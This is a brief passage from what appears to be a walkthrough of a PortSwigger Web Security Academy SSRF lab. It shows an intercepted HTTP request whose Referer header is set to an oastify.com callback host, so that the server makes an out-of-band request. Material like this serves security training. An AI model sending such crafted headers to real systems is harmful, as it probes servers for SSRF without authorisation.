 -   https://portswigger.net/web-security/ssrf

![img](media/e285b2f975fc8afeec41ed21fbf11174.png)

Intercept the request when clicking a product and change the “Referer” header:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /product?productId=1 HTTP/2
...
Referer: http://snjtorvmsesj9itkltcgrqtsfjla92xr.oastify.com
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/3c8068b00ab77f4ae433669151a32aa3.png)
